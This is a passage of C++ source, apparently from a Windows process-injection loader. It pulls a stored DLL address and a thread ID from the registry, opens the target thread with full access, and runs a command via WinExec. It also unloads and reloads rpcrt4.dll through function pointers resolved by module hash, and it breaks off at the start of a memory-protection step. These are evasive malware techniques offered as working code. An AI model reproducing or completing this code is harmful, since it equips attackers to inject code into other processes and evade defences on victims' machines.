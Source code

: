 ```cpp
#else

    // If we didin't use the registry, we used a memory region
    // So we just need to recover the address
    ULONG64 cbBuf = 0;
    DWORD dwSize = sizeof(cbBuf);

    value = (LPCTSTR)savedDllAddress;
    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_QWORD, NULL, &cbBuf, &dwSize) == ERROR_SUCCESS) {
        if (0 == startAddress) {
            return EXIT_FAILURE;
        }
    }

#endif

#ifdef RESUME_THREAD
    DWORD threadId = 0;
    DWORD tidSize = sizeof(threadId);

    value = (LPCTSTR)tiValue;
    if (RegGetValueFunc(hKey, NULL, value, RRF_RT_DWORD, NULL, &threadId, &tidSize) == ERROR_SUCCESS) {
        if (0 == threadId) {
#ifdef _DEBUG
            printfFunc("Error fetching Thread ID\n");
#endif
            return EXIT_FAILURE;
        }
    }


#ifdef _DEBUG
    printfFunc("Targeting Thread ID: %i\n", threadId);
#endif

    HANDLE hThread = OpenThreadFunc(THREAD_ALL_ACCESS, FALSE, threadId);
    if (hThread == NULL) {
#ifdef _DEBUG
        printfFunc("OpenThread Failed.\n");
#endif
        return EXIT_FAILURE;
    }

#endif
    SleepFunc(SHORT_SLEEP);

    WinExecFunc((LPCSTR)WinExecCommand, 0);

#ifdef DEBUG_SLEEP
    // Sleep to inspect execution
    SleepFunc(SHORT_SLEEP);
#endif // !DEBUG_SLEEP

#ifndef NO_LIB_RELOAD
    FreeLibraryFunc((HMODULE)GetModule(RPCRT4DLL_HASH));
    LoadLibraryFunc((LPCWSTR)rpcrt4dllName);
#endif

    DWORD oldProtect;

#ifdef _DEBUG
    printfFunc("StartAddress: 0x%llx\n", startAddress);
```